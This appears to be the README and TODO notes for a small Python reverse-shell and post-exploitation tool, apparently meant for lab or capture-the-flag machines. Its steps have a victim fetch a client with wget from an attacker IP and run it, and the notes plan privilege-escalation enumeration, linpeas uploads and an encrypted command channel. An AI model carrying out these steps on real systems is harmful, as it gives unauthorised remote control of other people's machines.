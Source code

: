 # Assumptions
- python3 exists on the server

# Steps
1. (on attacker): python3 http_server.py
2. (on victim): wget 10.10.14.7:8000/victim_client_10.10.14.7.py
3. (on attacker): python3 listener.py
4. (on victim): python3 victim_client_10.10.14.7.py

# TODO
- (Medium) Fix simple reverse shell (instead of python victim client) running into EOF error
    - (Low) Create several implementations for looping reverse shells in case python isn't available
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc
    - (Low) Have menu items show if an error occured of if the playbook results are already available
    - (Low) Show details about found results and what steps to take next
    - menu['show']['network']['all'] = function
    - show enumerate
      [ ] 1. Check SUID binaries
    - use enumerate 1
    - show network
      [ ] 1. Local IPv4s
      [X] 2. Connected subnets
      [ ] 3. Reachable online hosts
    - show network 2
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered
